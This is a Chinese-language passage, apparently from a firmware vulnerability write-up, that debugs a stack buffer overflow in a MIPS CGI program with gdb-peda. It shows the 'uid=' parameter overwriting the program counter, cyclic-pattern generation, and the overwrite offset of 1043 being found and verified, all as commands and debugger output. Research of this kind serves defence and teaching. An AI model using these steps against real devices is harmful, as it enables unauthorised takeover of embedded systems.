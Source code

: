 ```sh
#查看传参情况
gdb-peda$ x/s $a3
0x42e718:       "1234&password=", 'A' <repeats 186 times>...
#继续执行发现$pc被覆盖
gdb-peda$ c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
1: x/10i $pc
=> 0x41414141:  <error: Cannot access memory at address 0x41414140>
gdb-peda$ i r
          zero       at       v0       v1       a0       a1       a2       a3
 R0   00000000 fffffff8 ffffffff 0000004b 76ffe550 00000001 0042e000 00000020
            t0       t1       t2       t3       t4       t5       t6       t7
 R8   767ab4c8 000012c9 00000002 00000024 00000025 00000807 00000800 00000400
            s0       s1       s2       s3       s4       s5       s6       s7
 R16  41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141
            t8       t9       k0       k1       gp       sp       s8       ra
 R24  00000008 00000000 00000000 00000000 004346d0 76ffea50 41414141 41414141
            sr       lo       hi      bad    cause       pc
      20000010 0001db02 00000098 41414140 00000000 41414141
           fsr      fir
      00000000 00739300
```

使用gdb的peda插件生成长度为600的偏移填充字符串写入test中

```sh
gdb-peda$ pattern create 2000 test
```

使用下面的命令运行cgi_run.sh脚本

```sh
sudo ./cgi_run.sh 'uid=1234'  `python  -c "print 'uid='+open('test','r').read(2000)"`
```

再用gdb进行动态调试，结果程序没有崩溃，检查发现并不是所有的字符都作为参数传如printf函数中

```sh
gdb-peda$ x/2s $a3
0x42e0f0:       "AAA%AAsAABAA$AAnAACAA-AA(AADAA"
0x42e10f:       ""
```

这里再`;`字符处截断了，所以这里不能用peda构造的填充字符计算偏移，这里改用上面的patternLocOffset.py（使用的都是可见字符）脚本生成。

```sh
python patternLocOffset.py -c -l 2000 -f test
```

继续动态调试找到覆盖偏移1043，即再`uid=`后面跟上1043个字节的填充数据，然后再写入跳转地址。

```sh
#传参2000个字符
sudo ./cgi_run.sh 'uid=1234'  `python  -c "print 'uid='+open('test','r').read(2000)"`
#调试运行
gdb-peda$ c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0x38694237 in ?? ()
#计算偏移
python patternLocOffset.py -s 0x38694237
[*] Create pattern string contains 1024 characters
ok!
[+] Possible match at offset 1043 (adjusted another-endian)
[+] take time: 0.0017 s
#验证偏移
sudo ./cgi_run.sh 'uid=1234'  `python  -c "print 'uid='+'A'*1025+'B'*16"`
```